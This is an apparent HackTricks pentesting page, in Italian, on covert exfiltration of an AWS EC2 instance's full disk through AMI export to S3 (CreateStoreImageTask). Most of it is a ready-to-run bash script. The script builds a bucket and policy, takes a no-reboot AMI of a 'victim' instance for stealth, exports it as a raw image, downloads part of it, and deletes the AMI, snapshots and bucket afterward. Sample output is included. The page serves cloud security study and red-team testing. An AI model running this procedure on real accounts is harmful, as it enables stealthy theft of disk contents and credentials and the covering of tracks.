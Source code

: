 # AWS – Covert Disk Exfiltration via AMI Store-to-S3 (CreateStoreImageTask)

{{#include ../../../../banners/hacktricks-training.md}}

## Sommario
Abuse EC2 AMI export-to-S3 per esfiltrare l'intero disco di un'istanza EC2 come singola immagine raw memorizzata in S3, quindi scaricarla fuori banda. Questo evita la condivisione di snapshot e produce un oggetto per AMI.

## Requisiti
- EC2: `ec2:CreateImage`, `ec2:CreateStoreImageTask`, `ec2:DescribeStoreImageTasks` sull'istanza/AMI target
- S3 (stessa Region): `s3:PutObject`, `s3:GetObject`, `s3:ListBucket`, `s3:AbortMultipartUpload`, `s3:PutObjectTagging`, `s3:GetBucketLocation`
- KMS decrypt sulla chiave che protegge gli snapshot AMI (se è abilitata la cifratura predefinita di EBS)
- Policy del bucket S3 che si fida del principal di servizio `vmie.amazonaws.com` (vedi sotto)

## Impatto
- Acquisizione completa offline del disco root dell'istanza in S3 senza condividere snapshot o copiare tra account.
- Permette analisi forense furtiva di credenziali, configurazione e contenuti del filesystem dall'immagine raw esportata.

## Come esfiltrare via AMI Store-to-S3

- Note:
- Il bucket S3 deve essere nella stessa Region dell'AMI.
- In `us-east-1`, `create-bucket` non deve includere `--create-bucket-configuration`.
- `--no-reboot` crea un'immagine crash-consistente senza arrestare l'istanza (più furtivo ma meno consistente).

<details>
<summary>Step-by-step commands</summary>
```bash
# Vars
REGION=us-east-1
INSTANCE_ID=<i-victim>
BUCKET=exfil-ami-$(date +%s)-$RANDOM

# 1) Create S3 bucket (same Region)
if [ "$REGION" = "us-east-1" ]; then
aws s3api create-bucket --bucket "$BUCKET" --region "$REGION"
else
aws s3api create-bucket --bucket "$BUCKET" --create-bucket-configuration LocationConstraint=$REGION --region "$REGION"
fi

# 2) (Recommended) Bucket policy to allow VMIE service to write the object
ACCOUNT_ID=$(aws sts get-caller-identity --query Account --output text)
cat > /tmp/bucket-policy.json <<POL
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowVMIEPut",
"Effect": "Allow",
"Principal": {"Service": "vmie.amazonaws.com"},
"Action": [
"s3:PutObject", "s3:AbortMultipartUpload", "s3:ListBucket",
"s3:GetBucketLocation", "s3:GetObject", "s3:PutObjectTagging"
],
"Resource": [
"arn:aws:s3:::$BUCKET",
"arn:aws:s3:::$BUCKET/*"
],
"Condition": {
"StringEquals": {"aws:SourceAccount": "$ACCOUNT_ID"},
"ArnLike": {"aws:SourceArn": "arn:aws:ec2:$REGION:$ACCOUNT_ID:image/ami-*"}
}
}
]
}
POL
aws s3api put-bucket-policy --bucket "$BUCKET" --policy file:///tmp/bucket-policy.json

# 3) Create an AMI of the victim (stealthy: do not reboot)
AMI_ID=$(aws ec2 create-image --instance-id "$INSTANCE_ID" --name exfil-$(date +%s) --no-reboot --region "$REGION" --query ImageId --output text)

# 4) Wait until the AMI is available
aws ec2 wait image-available --image-ids "$AMI_ID" --region "$REGION"

# 5) Store the AMI to S3 as a single object (raw disk image)
OBJKEY=$(aws ec2 create-store-image-task --image-id "$AMI_ID" --bucket "$BUCKET" --region "$REGION" --query ObjectKey --output text)

echo "Object in S3: s3://$BUCKET/$OBJKEY"

# 6) Poll the task until it completes
until [ "$(aws ec2 describe-store-image-tasks --image-ids "$AMI_ID" --region "$REGION" \
--query StoreImageTaskResults[0].StoreTaskState --output text)" = "Completed" ]; do
aws ec2 describe-store-image-tasks --image-ids "$AMI_ID" --region "$REGION" \
--query StoreImageTaskResults[0].StoreTaskState --output text
sleep 10
done

# 7) Prove access to the exported image (download first 1MiB)
aws s3api head-object --bucket "$BUCKET" --key "$OBJKEY" --region "$REGION"
aws s3api get-object --bucket "$BUCKET" --key "$OBJKEY" --range bytes=0-1048575 /tmp/ami.bin --region "$REGION"
ls -l /tmp/ami.bin

# 8) Cleanup (deregister AMI, delete snapshots, object & bucket)
aws ec2 deregister-image --image-id "$AMI_ID" --region "$REGION"
for S in $(aws ec2 describe-images --image-ids "$AMI_ID" --region "$REGION" \
--query Images[0].BlockDeviceMappings[].Ebs.SnapshotId --output text); do
aws ec2 delete-snapshot --snapshot-id "$S" --region "$REGION"
done
aws s3 rm "s3://$BUCKET/$OBJKEY" --region "$REGION"
aws s3 rb "s3://$BUCKET" --force --region "$REGION"
```
</details>

## Esempio di evidenza

- `describe-store-image-tasks` transizioni:
```text
InProgress
Completed
```
- Metadati oggetto S3 (esempio):
```json
{
"AcceptRanges": "bytes",
"LastModified": "2025-10-08T01:31:46+00:00",
"ContentLength": 399768709,
"ETag": "\"c84d216455b3625866a58edf294168fd-24\"",
"ContentType": "application/octet-stream",
"ServerSideEncryption": "AES256",
"Metadata": {
"ami-name": "exfil-1759887010",
"ami-owner-account": "<account-id>",
"ami-store-date": "2025-10-08T01:31:45Z"
}
}
```
- Il download parziale dimostra l'accesso all'oggetto:
```bash
ls -l /tmp/ami.bin
# -rw-r--r--  1 user  wheel  1048576 Oct  8 03:32 /tmp/ami.bin
```
## Permessi IAM richiesti

- EC2: `CreateImage`, `CreateStoreImageTask`, `DescribeStoreImageTasks`
- S3 (sul bucket di esportazione): `PutObject`, `GetObject`, `ListBucket`, `AbortMultipartUpload`, `PutObjectTagging`, `GetBucketLocation`
- KMS: Se gli snapshot AMI sono encrypted, consentire decrypt per la EBS KMS key usata dagli snapshot

{{#include ../../../../banners/hacktricks-training.md}}
